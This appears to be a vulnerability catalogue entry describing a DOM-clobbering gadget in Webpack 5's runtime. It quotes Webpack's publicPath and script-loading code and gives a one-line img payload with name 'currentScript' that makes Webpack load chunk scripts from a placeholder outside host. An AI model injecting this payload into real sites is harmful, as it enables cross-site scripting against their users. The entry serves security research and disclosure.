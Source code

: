## Webpack

### Meta

+ Library: Webpack
+ Version: 5
+ Fingerprint: `typeof __webpack_require__ !== 'undefined' && __webpack_require__.hasOwnProperty('p')`
+ Payload: ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img>```
+ Impact: XSS
+ Foundby: TheHulk

### Library

URL: Self hosted

### Vulnerable Code Snippet

`webpack/runtime/publicPath`
```javascript
var scriptUrl;
if (__webpack_require__.g.importScripts) scriptUrl = __webpack_require__.g.location + "";
var document = __webpack_require__.g.document;
if (!scriptUrl && document) {
	if (document.currentScript)
		scriptUrl = document.currentScript.src;
	if (!scriptUrl) {
		var scripts = document.getElementsByTagName("script");
		if(scripts.length) {
			var i = scripts.length - 1;
			while (i > -1 && (!scriptUrl || !/^http(s?):/.test(scriptUrl))) scriptUrl = scripts[i--].src;
		}
	}
}
// When supporting browsers where an automatic publicPath is not supported you must specify an output.publicPath manually via configuration
// or pass an empty string ("") and set the __webpack_public_path__ variable from your code to use your own logic.
if (!scriptUrl) throw new Error("Automatic publicPath is not supported in this browser");
scriptUrl = scriptUrl.replace(/#.*$/, "").replace(/\?.*$/, "").replace(/\/[^\/]+$/, "/");
__webpack_require__.p = scriptUrl;
```

`webpack/runtime/jsonp chunk loading`
```javascript
function loadUpdateChunk(chunkId, updatedModulesList) {
	currentUpdatedModulesList = updatedModulesList;
	return new Promise((resolve, reject) => {
		waitingUpdateResolves[chunkId] = resolve;
		// start update chunk loading
		var url = __webpack_require__.p + __webpack_require__.hu(chunkId);
		// create error before stack unwound to get useful stacktrace later
		var error = new Error();
		var loadingEnded = (event) => {
			if(waitingUpdateResolves[chunkId]) {
				waitingUpdateResolves[chunkId] = undefined
				var errorType = event && (event.type === 'load' ? 'missing' : event.type);
				var realSrc = event && event.target && event.target.src;
				error.message = 'Loading hot update chunk ' + chunkId + ' failed.\n(' + errorType + ': ' + realSrc + ')';
				error.name = 'ChunkLoadError';
				error.type = errorType;
				error.request = realSrc;
				reject(error);
			}
		};
		__webpack_require__.l(url, loadingEnded);
	});
}
```

`webpack/runtime/load script`
```javascript
__webpack_require__.l = (url, done, key, chunkId) => {
	if(inProgress[url]) { inProgress[url].push(done); return; }
	var script, needAttach;
	if(key !== undefined) {
		var scripts = document.getElementsByTagName("script");
		for(var i = 0; i < scripts.length; i++) {
			var s = scripts[i];
			if(s.getAttribute("src") == url || s.getAttribute("data-webpack") == dataWebpackPrefix + key) { script = s; break; }
		}
	}
	if(!script) {
		needAttach = true;
		script = document.createElement('script');

		script.charset = 'utf-8';
		script.timeout = 120;
		if (__webpack_require__.nc) {
			script.setAttribute("nonce", __webpack_require__.nc);
		}
		script.setAttribute("data-webpack", dataWebpackPrefix + key);

		script.src = url;
	}
	inProgress[url] = [done];
	var onScriptComplete = (prev, event) => {
		// avoid mem leaks in IE.
		script.onerror = script.onload = null;
		clearTimeout(timeout);
		var doneFns = inProgress[url];
		delete inProgress[url];
		script.parentNode && script.parentNode.removeChild(script);
		doneFns && doneFns.forEach((fn) => (fn(event)));
		if(prev) return prev(event);
	}
	var timeout = setTimeout(onScriptComplete.bind(null, undefined, { type: 'timeout', target: script }), 120000);
	script.onerror = onScriptComplete.bind(null, script.onerror);
	script.onload = onScriptComplete.bind(null, script.onload);
	needAttach && document.head.appendChild(script);
};
```

## PoC

Webpack's generated code differes significantly for each use. Ensure that the code snippets appear, then browse the network requests to see the URLs that are requested. Some users may configure their public path differently. Fingerprint may not work if Webpack is configured to not produce source maps.

